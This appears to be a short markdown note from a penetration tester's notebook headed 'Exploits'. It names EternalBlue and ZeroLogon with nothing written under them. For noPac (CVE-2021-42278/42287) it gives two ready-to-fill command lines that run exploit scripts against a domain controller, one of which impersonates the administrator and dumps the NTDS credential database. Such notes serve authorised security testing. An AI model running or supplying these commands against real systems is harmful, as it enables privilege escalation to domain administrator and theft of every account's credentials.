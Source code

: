 ```yaml
---
cssclass: clean-embeds
---
```


# 9 Exploits
![[Global Vulnerabilities]]

## Known exploits
EternalBlue (CVE-2017-0144):

ZeroLogon (CVE-2020-1472):

noPac (CVE-2021-42278 & CVE-2021-42287):
```bash
python3 sam_the_admin.py -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>'
python3 noPac.py -use-ldap -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' --impersonate administrator -dump # priv esc & dump NTDS
```